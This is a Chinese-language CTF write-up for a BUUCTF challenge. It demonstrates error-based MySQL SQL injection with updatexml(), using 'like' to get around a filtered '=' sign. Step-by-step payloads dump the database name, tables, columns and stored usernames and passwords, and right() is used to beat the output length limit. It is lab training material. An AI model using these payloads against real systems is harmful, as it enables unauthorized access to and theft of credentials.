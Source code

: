 

### like 绕过 = 过滤

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e66a58cb8da5c842e442.jpg)

初次尝试万能密码登录成功，说明闭合为单引号

![](https://pic1.imgdb.cn/item/6848e79b58cb8da5c842f049.jpg)

`updatexml()` 用于更新 XML 数据，它接受 3 个参数

```sql
# xml_target：目标 XML 文本（必须是合法 XML 格式，否则报错）
# xpath_expr：XPath 表达式，用于选中 XML 中的节点
# new_value：要更新的新值
UPDATEXML(xml_target, xpath_expr, new_value)
```

在 MySQL 中使用 `updatexml()` 函数报错时，它通常会抛出一个 **XPATH 语法错误**，并将你传入的第二个参数（即 XPath 表达式）的一部分直接显示在错误信息中

第一、三个参数肯定会报错，所以我们将 `database()` 放在中间，这样就会执行显示出数据库名

可以再加上 `concat()` 函数将显示内容包裹起来，`0x7e` 即波浪号 `~`

```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/68495faa58cb8da5c8450122.jpg)

接下来就是爆表，这里注意 `=` 被过滤了使用 `like` 代替

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849601f58cb8da5c84503d9.jpg)

接下来爆字段

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849604658cb8da5c8450538.jpg)

查字段内容

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608258cb8da5c845079a.jpg)

使用 `right()` 突破字符限制

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608e58cb8da5c8450840.jpg)